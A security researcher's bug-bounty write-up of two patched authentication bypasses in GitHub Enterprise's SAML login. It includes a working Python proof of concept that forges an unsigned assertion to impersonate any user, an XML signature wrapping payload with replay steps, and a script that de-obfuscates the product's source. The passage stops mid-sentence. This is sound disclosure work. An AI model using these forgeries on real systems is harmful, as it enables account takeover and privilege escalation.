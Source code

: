 =========================================================
The road to your codebase is paved with forged assertions
=========================================================

:date: 2017-03-13
:modified: 2017-03-13 00:10
:tags: SAML, authentication, XSW
:category: bounty
:slug: github-saml
:authors: Ioannis Kakavas
:summary: Authentication bypass using vulnerabilities in the Github Enterprise SAML SP implementation


.. role:: bash(code)
   :language: bash

.. role:: rubyinline(code)
   :language: ruby

.. contents:: Navigation


TL;DR
-------
Two vulnerabilities were identified in the SAML Service Provider implementation of Github Enterprise edition that allowed for full authentication bypass. These vulnerabilities were reported to Github via their `bug bounty program in Hackerone <https://www.hackerone.com/github>`_ and mitigated.

Introduction
----------------

Github Enterprise allows to be configured for authentication `using SAML <https://help.github.com/enterprise/2.9/admin/guides/user-management/using-saml>`_ , acting as a SAML Service Provider for the Organization's on premises SAML Identity Provider. For a short introduction on SAML authentication feel free to take a look in my `previous post <http://www.economyofmechanism.com/office365-authbypass.html#short-saml-introduction>`_ and/or any of the following: `wikipedia <https://en.wikipedia.org/wiki/SAML_2.0#Web_Browser_SSO_Profile>`_, `onelogin saml tutorial <https://developers.onelogin.com/saml>`_, `auth0 saml how-to <https://auth0.com/blog/how-saml-authentication-works/>`_. 

Ever since I heard that Github supported SAML authentication for it's Enterprise edition, I made a mental note to come back an take a look. I was curious about what I might find but because of Github being Github, I didn't expect to uncover anything significant and I gradually forgot about it. Fast forward to this January when `Orange Tsai <https://twitter.com/orange_8361>`_ posted their cool `writeup <http://blog.orange.tw/2017/01/bug-bounty-github-enterprise-sql-injection.html>`_ of the SQL injection vulnerability they discovered in GHE and `this tweet <https://twitter.com/github/status/818548407987945473>`_ from `Github Security <https://twitter.com/GithubSecurity>`_ announcing that they will be giving out some bonuses on the vulnerabilities reported in January and February. Orange's writeup triggered my interest and the bounty bonus functioned as a nice incentive.

This post describes what happened next. The focus will be on how I came about finding the vulnerabilities hoping that you can take something more out of reading this post, rather than just me "bragging" about what I found. 


Setting up the test environment
+++++++++++++++++++++++++++++++

Failing to read the `documentation <https://bounty.github.com/#open-bounties>`_ properly, I didn't know that I could ask for a testing license from Github, so I went and registered for a normal business trial (Apologies to the friendly sales guy who tried to set up a call with me following that - I never had a legitimate interest in buying).

I downloaded the qcow2 image, fired up a VM with 2 cpu and 4 GB ram, and.. nothing. 

.. figure:: /images/ghe1.png
    :alt: Firing up the VM
    :width: 50%

After navigating to `https://192.168.122.244:8443/setup` as instructed, I received the following message informing me that I would need 14 more GB of RAM at least to just bootstrap the installation. 

.. figure:: /images/ghe2.png
    :alt: Grounded by preflight checks
    :width: 50%

Thinking that I won't probably need all of this memory to just test out the SAML implementation, I focused on how to bypass the limitation. A quick search on how to mount and edit a qcow2 image pointed me to libguestfs and `guestfish <http://libguestfs.org/guestfish.1.html>`_ 
After successfully mounting the image, I did a quick search for 'preflight' and luckily enough I stumbled upon `/usr/local/share/enterprise/ghe-preflight-check` which contained all the limits. Changing 

.. code::

 CHECK_REQUIREMENTS = {¬
   default: {memory: 14, blockdev_capacity: 10, rootdev_capacity: 20},¬
 }

to

.. code::

 CHECK_REQUIREMENTS = {¬
  default: {memory: 3, blockdev_capacity: 10, rootdev_capacity: 20},¬
 }

did the trick and I was able to start the VM. 

Getting the source code of the SAML implementation
+++++++++++++++++++++++++++++++++++++++++++++++++++

Building on what Orange had described in the write-up, I proceeded to `scp` the source code from `/data/github/current` to the host machine and used the following script

.. code:: ruby

    require 'zlib'
    require 'fileutils'

    def decrypt(s)
        key = "This obfuscation is intended to discourage GitHub Enterprise customers from making modifications to the VM. We know this 'encryption' is easily broken. "
        i, plaintext = 0, ''
        Zlib::Inflate.inflate(s).each_byte do |c| 
            plaintext << (c ^ key[i%key.length].ord).chr
            i += 1
        end 
        plaintext
    end
    content = File.open(ARGV[0], "r").read
    filename = './decrypted_source/'+ARGV[0]
    if content.include? "ruby_concealer.so"
        content.sub! %Q(require "ruby_concealer.so"\n__ruby_concealer__), " decrypt "
        plaintext = eval content

        dirname = File.dirname('./decrypted_source/'+ARGV[0])
        unless File.directory?(dirname)
              FileUtils.mkdir_p(dirname)
        end 
    else
        plaintext = content
    end

    open(filename,'w') { |f| 
        f.puts plaintext
    }

to de-obfuscate all ruby files with 

.. code::

  find . -iname '*.rb' -exec ruby decrypt.rb '{}' \;





Verifying that everything works
++++++++++++++++++++++++++++++++++
Setting up the SAML authentication was quite easy following the steps in `the docs <https://help.github.com/enterprise/2.9/admin/guides/user-management/using-saml>`_. For the Identity Provider part, I am using a python project based on `pysaml2 <https://pypi.python.org/pypi/pysaml2>`_ that can handle legitimate IdP functionality as well as a number of automated and semi-automated SAML related attacks. Hopefully it will be released soon and will be the topic of another blog post. I created a dummy IdP certificate

.. code:: bash

  openssl req -nodes -x509 -newkey rsa:2048 -keyout idp.key -out idp.crt -days 3650

and I set my Issuer to be https://idp.ikakavas.gr and the authentication endpoint to https://idp.ikakavas.gr/sso/redirect. Note that the domain doesn't have to resolve to something, since all communication is front-channel via the user's browser, a simple entry in `/etc/hosts` pointing to localhost is sufficient for testing.
I set up my Identity Provider to release a NameID with format `urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified` and I was ready to start testing.

I did a test authentication releasing user1 as the NameID in the Subject of the SAML Assertion and verified that everything works as expected. The user was created in my GHE instance (it supports just in time provisioning) and I was successfully logged in. 

The flow is that of a normal SAML Web Browser Single Sign On. 


.. figure:: /images/ghe_saml_flow.png
    :alt: SAML Web SSO flow
    :width: 50%

1. User attempts to access https://192.168.122.244 

2. Since SAML Authentication is enabled and access to the web interface is protected, GHE SAML SP builds an authentication request and redirects the user to the IdP Authentication endpoint with the Authentication Request deflated and urlencoded as a HTTP GET Parameter: 

3. The IdP validates the request and if it "knows" the Issuer proceeds to authenticate the user

4. On successful authentication the IdP constructs a SAMLResponse containing an Assertion with an Authentication Statement and instructs the user browser to post that to the Assertion Consuming Service endpoint of the GHE SAML SP. 

5. The SAML Response's authenticity and validity is verified, the user is extracted from the NameID of the subject in the SAML Assertion and a session is created for them. 

6. The session cookie is set and the user is redirected back to https://192.168.122.244 as an authenticated user.


Attacking the SAML SP Implementation
--------------------------------------

Signature Stripping
++++++++++++++++++++

Overview
`````````

The first thing I tried was to disable signing the SAML Response and the SAML Assertion that my Identity Provider was sending to the GHE Service Provider. I did that more for due diligence so that I can move on to more promising test cases and almost couldn't believe it when the authentication succeeded. 

If you were too bored to refresh your SAML knowledge above, the equivalent of a Service Provider accepting unsigned SAML assertions is accepting a username without checking the password. Effectively on the flow described above, on step 5, GHE SAML SP accepted any SAML Assertion assuming it was well formed and valid without checking it's authenticity.

So, in 30 mins time (counting the time it took to figure out how to run the VM with less than 14GB of RAM) I had a very serious bug in my hands. The impact of it was quite severe:

* An external or internal attacker would be able to authenticate as any existing user to a GHE instance. 

* An external or internal attacker would be able to create arbitrary users in a given GHE instance, even with elevated privileges (`setting the administrator attribute <https://help.github.com/enterprise/2.9/admin/guides/user-management/using-saml/#saml-attributes>`_)

* An internal attacker would be able to elevate their privileges by setting the administrator attribute to true for their account. 


The thing is that signature verification is a very fundamental part of SAML SSO and I was too surprised and intrigued that this was not checked at all. I had to submit a report in Hackerone, but first I needed to know why. 

Details
```````

A few greps later, I figured out that the SAML implementation is contained within the `/data/github/current/lib/saml` directory. Ruby is not my strong point but the code seemed straightforward enough. A quick grep for `signature` left me more perplexed than before as I could see that there are code paths to handle the verification of the Signatures in the SAML Response

The verification process for an incoming SAML Response starts at `/data/github/current/lib/github/authentication/saml.rb` which deals with the HTTP POST request to the Assertion Consuming Service Endpoint and specifically in the :rubyinline:`get_auth_failure_result` method

.. code:: ruby

          def get_auth_failure_result(saml_response, request, log_data)
            unless saml_response.in_response_to || idp_initiated_sso? || ::SAML.mocked[:skip_in_response_to_check]
              return GitHub::Authentication::Result.external_response_ignored
            end
            unless saml_response.valid?(
              :issuer => configuration[:issuer],
              :idp_certificate => idp_certificate,
              :sp_url => configuration[:sp_url]
            )
              log_auth_validation_event(log_data, "failure - Invalid SAML response", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => INVALID_RESPONSE
            end

            if saml_response.request_denied?
              log_auth_validation_event(log_data, "failure - RequestDenied", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => saml_response.status_message || REQUEST_DENIED_RESPONSE
            end

            unless saml_response.success?
              log_auth_validation_event(log_data, "failure - Unauthorized", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => UNAUTHORIZED_RESPONSE
            end

            if request_tracking? && !in_response_to_request?(saml_response, request)
              log_auth_validation_event(log_data, "failure - Unauthorized - In Response To invalid", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => UNAUTHORIZED_RESPONSE
            end
          end

The interesting part starts when `valid?` is called:

.. code:: ruby

            unless saml_response.valid?(
              :issuer => configuration[:issuer],
              :idp_certificate => idp_certificate,
              :sp_url => configuration[:sp_url]
            )
              log_auth_validation_event(log_data, "failure - Invalid SAML response", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => INVALID_RESPONSE
            end

The `valid?` method of `saml_response` actually calls `validate` from of the `Message` class (`/lib/saml/message.rb`)

.. code:: ruby

        # Public: Validates schema and custom validations.
        #   
        # Returns false if instance is invalid. #errors will be non-empty if
        # invalid.
        def valid?(options = {}) 
          errors.clear
          validate_schema && validate(options)
          errors.empty?
        end 

and in turn `validate` method called above is implemented in `Response` class, that implements `Message` in `/data/github/current/lib/saml/message/response.rb`

.. code:: ruby

    def validate(options)
        if !SAML.mocked[:skip_validate_signature] && options[:idp_certificate]
          validate_has_signature
          validate_signatures(options[:idp_certificate])
        end
        validate_issuer(options[:issuer])
        validate_destination(options[:sp_url])
        validate_recipient(options[:sp_url])
        validate_conditions
        validate_audience(options[:sp_url])
        validate_name_id_format(options[:name_id_format])
    end

So I ended here and I had no clear way of knowing whether `validate_has_signature` and `validate_signatures` where executed or not. `SAML.mocked` would need to have been set to true somewhere and this would affect everything which seemed rather improbable, and I was certain that the `idp_certificate` was set since one cannot complete the SAML configuration part in the admin UI without setting this. 


The only way to know was to debug the functionality, the way debugging was meant to be done: Print statements. Jokes aside, having limited exposure to Ruby and unicorn adding `puts` or `pp` statements was the easiest way for me to get some insights at that point.  

So I replaced the obfuscated code with the de-obfuscated version of `/data/github/current/lib/saml/message/response.rb` and changed the following

.. code:: ruby

    def validate(options)
        pp options
        if !SAML.mocked[:skip_validate_signature] && options[:idp_certificate]
          puts 'Going to validate the signature'
          validate_has_signature
          validate_signatures(options[:idp_certificate])
        end
    ...

Next I had to figure out what runs the ruby application, so that I would know which logs to check for for the output. 

I started of by seeing what listens on port 443 and figured out that it is haproxy that then passes on the request to nginx which then passes it to unicorn. 
Using `systemctl list-units` I then found that the name of the service is github-unicorn and from the `data/github/current/config/unicorn.rb` file the location of the log file at `/var/log/githib/unicorn.log`

Armed with the knowledge above, I restarted the service, performed an authentication and took a look at the log to see what's going on and saw the following:

.. code:: ruby

 {:issuer=>"https://idp.ikakavas.gr",
  :idp_certificate=>nil,
  :sp_url=>"https://192.168.122.244"}

Since `:idp_certificate` was nil, :rubyinline:`!SAML.mocked[:skip_validate_signature] && options[:idp_certificate]` validated to false, and `validate_has_signature` and `validate_signatures` that would actually check the validity of the signatures were never executed!!  

Digging deeper to the source of the issue and the actual bug, I traced back to `/data/github/current/lib/github/authentication/saml.rb` where the `valid` is called

.. code:: ruby

    unless saml_response.valid?(
      :issuer => configuration[:issuer],
      :idp_certificate => idp_certificate,
      :sp_url => configuration[:sp_url]
    )

and the method `idp_certificate`. It looks like this:

.. code:: ruby

     # Public: Returns a string containing the IdP certificate or nil.
      def idp_certificate
        @idp_certificate ||= if configuration[:idp_certificate]
          configuration[:idp_certificate]
        elsif configuration[:idp_certificate_path]
          File.read(configuration[:idp_certificate_path])
        end
      end 

I kept staring at it, and nothing seemed off. I couldn't spot any error so "puts to the rescue!"
A few minutes later (unicorn restart took quite some time with 4GB of RAM) I was looking at what the configuration Hash looked like

.. code:: ruby

    {:sso_url=>"http://idp.ikakavas.gr/sso",
     :idp_initiated_sso=>false,
     :disable_admin_demote=>false,
     :issuer=>"https://idp.ikakavas.gr",
     :signature_method=>"http://www.w3.org/2001/04/xmldsig-more#rsa-sha256",
     :digest_method=>"http://www.w3.org/2000/09/xmldsig#sha1",
     :idp_certificate_file=>"/data/user/common/idp.crt",
     :sp_pkcs12_file=>"/data/user/common/saml-sp.p12",
     :admin=>nil,
     :profile_name=>nil,
     :profile_mail=>nil,
     :profile_key=>nil,
     :profile_gpg_key=>nil,
     :sp_url=>"https://192.168.122.244"}

The bug was staring me in the face. And it was a simple one. 

The configuration Hash has a property called `idp_certificate_file` and the code in  `/data/github/current/lib/github/authentication/saml.rb` attempted to get the `idp_certificate_path`. This returned `nil` and effectively disabled all SAML message integrity/authenticity protection.

PoC
``````

I wrote up the above and created the following PoC so that they could validate the issue easily:

.. code:: python

    import requests, urllib, zlib, base64, re, datetime, pprint
    from urlparse import parse_qs
    from requests.packages.urllib3.exceptions import InsecureRequestWarning
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

    # Change this to reflect your GHE setup
    URL ='https://192.168.122.244/login?return_to=https%3A%2F%2F192.168.122.244%2F'
    ISSUER = 'https://idp.ikakavas.gr'
    RECIPIENT = 'https://192.168.122.244/saml/consume'
    AUDIENCE = 'https://192.168.122.244'
    # user to impersonate
    NAMEID = 'testuser'

    # Get a client that can handle cookies
    saml_client = requests.session()
    # Make the initial request to trigger the authentication middleware
    # Disallow redirects as we need to catch the Location header and parse it
    response = saml_client.get(URL, verify=False, allow_redirects=False)
    idp_login_url = response.headers['Location']
    # Get the HTTP GET parameters as a dict
    saml_message = (dict([(k, v[0]) for k, v in parse_qs(idp_login_url.split("?")[1]).items()]))
    if 'SAMLRequest' in saml_message and 'RelayState' in saml_message:
        relay_state = saml_message['RelayState']
        encoded_saml_request = saml_message['SAMLRequest']
        # inflate and decode the request
        saml_request = zlib.decompress(urllib.unquote(base64.b64decode(encoded_saml_request)), -15)
        # get the AuthnRequest ID so that we can reply 
        to_reply_to = re.search(r'ID="([_A-Za-z0-9]*)"', saml_request, re.M|re.I).group(1)

        now = '{0}Z'.format(datetime.datetime.utcnow().isoformat().split('.')[0])
        not_after = '{0}Z'.format((datetime.datetime.utcnow()+ datetime.timedelta(minutes = 20)).isoformat().split('.')[0])
        #Now load a dummy SAML Response from file and manipulate necessary fields
        saml_response ='''<?xml version="1.0" encoding="UTF-8"?>
    <ns0:Response Destination="{5}"
      ID="id-ijkXTw5GmzOJrShaq"
      InResponseTo="{0}"
      IssueInstant="{1}" Version="2.0"
      xmlns:ns0="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:ns1="urn:oasis:names:tc:SAML:2.0:assertion">
      <ns1:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity">https://idp.ikakavas.gr</ns1:Issuer>
      <ns0:Status>
        <ns0:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success"/>
      </ns0:Status>
      <ns1:Assertion ID="id-MnRkvbCYnZ7YQ9vP5"
        IssueInstant="{1}" Version="2.0">
        <ns1:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity">{2}</ns1:Issuer>
        <ns1:Subject>
          <ns1:NameID
            Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">{3}</ns1:NameID>
          <ns1:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
            <ns1:SubjectConfirmationData
              InResponseTo="{0}"
              NotOnOrAfter="{4}" Recipient="{5}"/>
          </ns1:SubjectConfirmation>
        </ns1:Subject>
        <ns1:Conditions NotBefore="{1}" NotOnOrAfter="{4}">
          <ns1:AudienceRestriction>
            <ns1:Audience>{6}</ns1:Audience>
          </ns1:AudienceRestriction>
        </ns1:Conditions>
        <ns1:AuthnStatement AuthnInstant="{1}" SessionIndex="id-bBMbAuaPOePnBgNTx">
          <ns1:AuthnContext>
            <ns1:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport</ns1:AuthnContextClassRef>
          </ns1:AuthnContext>
        </ns1:AuthnStatement>
      </ns1:Assertion>
    </ns0:Response>'''.format(to_reply_to, now, ISSUER, NAMEID, not_after, RECIPIENT, AUDIENCE)
        data = {'SAMLResponse': base64.b64encode(saml_response),
                'RelayState':relay_state}
        #Post the SAML Response to the ACS endpoint
        r = saml_client.post(RECIPIENT, data=data, verify=False, allow_redirects=False)
        # we expect a redirect on successful authentication 
        if 300 < r.status_code < 399:
            # Print the cookies for verification
            pprint.pprint(r.cookies.get_dict())

The above would print out something like the following:

.. code::

 {'_fi_sess': 'eyJsYXN0X3dyaXRlIjoxNDg0MDY0NjMxNzU3LCJmbGFzaCI6eyJkaXNjYXJkIjpbXSwiZmxhc2hlcyI6eyJhbmFseXRpY3NfZGltZW5zaW9uIjp7Im5hbWUiOiJkaW1lbnNpb241IiwidmFsdWUiOiJMb2dnZWQgSW4ifX19LCJzZXNzaW9uX2lkIjoiMzM2OGFiYmFjOGVjMWQxNGZiYjhmNDAzMGRiNWFkZGQifQ%3D%3D--c9219c7ba29e5285a76275c2a0a5dcbb12925fcb',
 '_gh_render': 'BAh7B0kiD3Nlc3Npb25faWQGOgZFVEkiRTZlMmNjZTBmN2RjMGM3MDExMGI3%0AMzVkMjcxYjZkOGY5MTQxMTE0Yzg2NDMwOGFkM2EzZDE5OTU1MjJiMTRkMGEG%0AOwBGSSIPdXNlcl9sb2dpbgY7AEZJIg10ZXN0dXNlcgY7AFQ%3D%0A--ae525ab90dee2157dec9890cdb147c569ff5e6b8',
 'dotcom_user': 'testuser',
 'logged_in': 'yes',
 'user_session': 'yoF_AlS0VMFsZjBzj8mLF9Wk_Ne1YpCv57y_T1rTy-FEfD_dWHUHd3pqz07hXxODk0hhms_8gVxICuBQ'}

and setting the `user_session` session cookie in a browser would log the attacker in as the impersonated user. 

Disclosure
````````````

I submitted the report via Hackerone on January 10th. I receive and acknowledgement some hours later, the issue was triaged the next day and a new GHE `release <https://enterprise.github.com/releases/2.8.6/notes>`_ was out on January 12th.



XML Signature Wrapping Attacks
+++++++++++++++++++++++++++++++++ 

Overiew
````````

Next weekend I found myself with some time to spare so I thought I'd give my testing software another spin in order to look for more issues. I have a test suite that would attempt all attacks described in the `2012 paper <https://www.usenix.org/conference/usenixsecurity12/technical-sessions/presentation/somorovsky>`_

Running the tool, it reported quite quickly that the implementation is vulnerable to a specific XML Signature Wrapping (XSW) attack, caused by the fact that the part that validates the signature and the part that implements business logic have different views on the data.
GHE SAML SP implementation was vulnerable to a crafted SAML Response that contains two SAML Assertions. Assuming the Legitimate Assertion is LA, the Forged Assertion is FA and LAS is the signature of the Legitimate Assertion, the malicious crafted SAML Response would look like this:

::

 <SAMLRespone>
   <FA ID="evil">
       <Subject>Attacker</Subject>
   </FA>
   <LA ID="legitimate">
       <Subject>Legitimate User</Subject>
       <LAS>
          <Reference Reference URI="legitimate">
          </Reference>
       </LAS>
   </LA>
 </SAMLResponse>

Upon receiving such a SAML response, GHE would successfully verify and consume it creating a session for **Attacker**, instead of **Legitimate User**, even if FA is **not** signed. 

Details
```````
Let's see why GHE is vulnerable to this attack by taking a look at the de-obfuscated source code as before:

The basic problem is that the implementers made an assumption that there will always be only one Assertion in a SAML response.

The verification process for an incoming SAML Response starts at `/data/github/current/lib/github/authentication/saml.rb` in

.. code:: ruby

 def rails_authenticate(request)


where the incoming SAML Message is used to create an instance of `SAML::Message::Response`

.. code:: ruby

    saml_response = ::SAML::Message::Response.from_param(request.params[:SAMLResponse])

`from_param()` from `/data/github/current/lib/saml/message.rb` base64 decodes the response, and then calls build() which in turn calls
parse() from `/data/github/current/lib/saml/message/response.rb`` In `parse()` the
`at\_xpath <http://www.rubydoc.info/github/sparklemotion/nokogiri/Nokogiri/XML/Searchable#at_xpath-instance_method>`__
and
`at <http://www.rubydoc.info/github/sparklemotion/nokogiri/Nokogiri/XML/Searchable#at-instance_method>`__
methods of `Nokogiri <www.nokogiri.org>`__ are used extensively in order
to search in the SAML Response for a given XPath and assign the text
value of the node to a variable.

This is the first part of the problem and this is how the business logic
gets its view of the SAML Response. Since `at_xpath` and `at` have
the well documented property of matching and retrieving **only** the
first result, no matter how many results are there, all variables below

.. code:: ruby

    issuer = d.at_xpath("//Response/Issuer") && d.at_xpath("//Response/Issuer").text
    issuer ||= d.at_xpath("//Response/Assertion/Issuer") && d.at_xpath("//Response/Assertion/Issuer").text
    status_code = d.at_xpath("//Response/Status/StatusCode")
    second_level_status_code = d.at_xpath("//Response/Status/StatusCode/StatusCode")
    status_message = d.at_xpath("//Response/Status/StatusMessage")
    authn = d.at_xpath("//AuthnStatement")
    conditions = d.at_xpath("//Response/Assertion/Conditions")
    audience_text = d.at_xpath("//Response/Assertion/Conditions/AudienceRestriction") && d.at_xpath("//Response/Assertion/Conditions/AudienceRestriction/Audience") && d.at_xpath("//Response/Assertion/Conditions/AudienceRestriction/Audience").text
    attribute_statements = d.at_xpath("//Response/Assertion/AttributeStatement")
    subject = d.at_xpath("//Subject") && d.at_xpath("//Subject").text
    name_id = d.at_xpath("//Subject/NameID") && d.at_xpath("//Subject/NameID").text
    name_id_format = d.at_xpath("//Subject/NameID") && d.at_xpath("//Subject/NameID")["Format"]
    subj_conf_data = d.at_xpath("//Subject/SubjectConfirmation") && d.at_xpath("//Subject/SubjectConfirmation/SubjectConfirmationData")

would take their values from the Forged Assertion(!!!) since it was the first child of the SAML Response document.

Now that the Response object is built, `get_auth_failure_result(saml_response, request, log_data)` is called as we've seen above also

.. code:: ruby

            unless saml_response.valid?(
              :issuer => configuration[:issuer],
              :idp_certificate => idp_certificate,
              :sp_url => configuration[:sp_url]
            )
              log_auth_validation_event(log_data, "failure - Invalid SAML response", saml_response, request.params)
              return GitHub::Authentication::Result.failure :message => INVALID_RESPONSE
            end

The `valid?` method of `saml_response` actually calls validate from /lib/saml/message.rb

.. code:: ruby

        # Public: Validates schema and custom validations.
        #   
        # Returns false if instance is invalid. #errors will be non-empty if
        # invalid.
        def valid?(options = {}) 
          errors.clear
          validate_schema && validate(options)
          errors.empty?
        end 

and `validate` is implemented in `/data/github/current/lib/saml/message/response.rb`

.. code:: ruby

    def validate(options)
        if !SAML.mocked[:skip_validate_signature] && options[:idp_certificate]
          validate_has_signature
          validate_signatures(options[:idp_certificate])
        end
        validate_issuer(options[:issuer])
        validate_destination(options[:sp_url])
        validate_recipient(options[:sp_url])
        validate_conditions
        validate_audience(options[:sp_url])
        validate_name_id_format(options[:name_id_format])
    end

Here is where the second part of the problem manifests and where the signature verification logic gets its view of the SAML Response:

`validate_has_signature` looks like this:

.. code:: ruby

    def validate_has_signature
        namespaces = {
          "ds" => "http://www.w3.org/2000/09/xmldsig#",
          "saml2p" => "urn:oasis:names:tc:SAML:2.0:protocol",
          "saml2" => "urn:oasis:names:tc:SAML:2.0:assertion"
        }
        unless document.at("//saml2p:Response/ds:Signature", namespaces) ||
               document.at("//saml2p:Response/saml2:Assertion/ds:Signature", namespaces)
          self.errors << "Message is not signed. Either the assertion or response or both must be signed."
        end
      end

``//saml2p:Response/saml2:Assertion/ds:Signature`` matches the legitimate assertion just fine so the method does not add anything to self.errors

Then, `validate_signatures`

.. code:: ruby

    def validate_signatures(certificate)
        certificate = OpenSSL::X509::Certificate.new(certificate)
        unless signatures.all? { |signature| signature.valid?(certificate) }
          puts "digest mismatch"
          self.errors << "Digest mismatch"
        end
      end

uses `signatures` that comes from ``/data/github/current/lib/saml/message.rb``

.. code:: ruby

    def signatures
      signatures = document.xpath("//ds:Signature", Xmldsig::NAMESPACES)
      signatures.reverse.collect do |node|
        Xmldsig::Signature.new(node)
      end || []
    end 

which matches the signature of the Legitimate Assertion in our forged SAML Response since it's the only one there and ``valid?`` from
``Xmldsig::Signature`` validates successfully the signature against the Identity Provider signing certificate (public key) since the legitimate assertion did come from the valid IdP.

Back to ``validate`` of ``response.rb``, all of the below

.. code:: ruby

        validate_issuer(options[:issuer])
        validate_destination(options[:sp_url])
        validate_recipient(options[:sp_url])
        validate_conditions
        validate_audience(options[:sp_url])
        validate_name_id_format(options[:name_id_format])

would return true as they operate on data of the Forged Assertion and the attacker can freely control them to be valid.

PoC
````

The code/toolset that I was using for testing is not yet in a form to be released/shared (hopefully soon) so I used `SAML Raider <https://github.com/SAMLRaider/SAMLRaider>`_ in order to describe a PoC with steps to be reproduced by Github Security team.

1.  Set up GHE for SAML authentication with a SAML Identity Provider of
    your liking.

2.  Install Burp Suite and SAML Raider plugin and start Burp Suite

3.  Configure your browser to use Burp Suite as proxy

4.  Start the login process to GHE

5.  Intercept the SAML Authn Request and forward
        
    .. figure:: /images/xsw1.png
        :alt: SAML Authentication Request
        :width: 60%

6.  Login at your Identity Provider as a valid user

7.  Intercept the SAML Response
    
    .. figure:: /images/xsw2.png
        :alt: SAML Authentication Response
        :width: 80%

8.  In the SAML Raider window select XSW3 from the available attacks and
    click on "Apply XSW"

9.  Check the SAML response below to see that it is changed, and change
    the name in the Subject of the Assertion with ID
    ``_evil_assertion_ID`` to something else ( i.e. "victim_account")

    .. figure:: /images/xsw3.png
        :alt: Forge Assertion
        :width: 80%

10. Click Forward and check that you are logged in as ``victim_account``

    .. figure:: /images/xsw4.png
        :alt: Logged in as victim
        :width: 80%


Exploitability
```````````````

An attacker can bypass authentication given one of the following is true

1. The attacker is an existing user of a GHE instance that uses SAML authentication.

2. The attacker is an existing user of a SAML Identity Provider that is configured as a trusted Identity Provider for a GHE instance that
   uses SAML authentication

3. Or the attacker can get their hands on a valid signed assertion
   (*only* the signature needs to be valid, the rest can be anything)
   from a SAML Identity Provider that is configured as a trusted
   Identity Provider for a GHE instance that uses SAML authentication.
   Note that this assertion destination can be any other SAML Service
   Provider. Possible sources for this can be Identity Provider logs,
